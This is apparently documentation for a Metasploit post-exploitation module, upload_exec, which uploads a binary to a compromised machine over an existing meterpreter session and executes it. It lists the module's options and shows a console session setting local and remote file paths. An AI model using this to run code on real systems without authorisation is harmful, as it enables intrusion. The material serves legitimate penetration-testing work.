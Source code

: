 ## Vulnerable Application

This module allows you to upload a binary file, and automatically execute it.

The following platforms are supported:

* Windows
* Linux
* OS X

## Verification Steps

1. Prepare for an executable file you wish to upload and execute.
2. Obtain a session from the target machine.
3. In msfconsole, do ```use post/multi/manage/upload_exec```
4. Set the ```LFILE``` option
5. Set the ```RFILE``` option
6. Set the ```SESSION``` option
7. ```run```

## Options

### LFILE

The file on your machine that you want to upload to the target machine.

### RFILE

The file path on the target machine. This defaults to LFILE.

## Scenarios

```
msf > use post/multi/manage/upload_exec
msf post(upload_exec) > show options

Module options (post/multi/manage/upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   LFILE                     yes       Local file to upload and execute
   RFILE                     no        Name of file on target (default is basename of LFILE)
   SESSION                   yes       The session to run this module on.

msf post(upload_exec) > set lfile /tmp/
lfile => /tmp/
msf post(upload_exec) > set lfile /tmp/msg.exe
lfile => /tmp/msg.exe
msf post(upload_exec) > set rfile C:\\Users\\sinn3r\\Desktop\\msg.exe
rfile => C:\Users\sinn3r\Desktop\msg.exe
msf post(upload_exec) > sessions

Active sessions
===============

  Id  Type                     Information                               Connection
  --  ----                     -----------                               ----------
  1   meterpreter x86/windows  WIN-6NH0Q8CJQVM\sinn3r @ WIN-6NH0Q8CJQVM  192.168.146.1:4444 -> 192.168.146.149:50168 (192.168.146.149)

msf post(upload_exec) > set session 1
session => 1

msf post(upload_exec) > run

[-] Post interrupted by the console user
[*] Post module execution completed
```
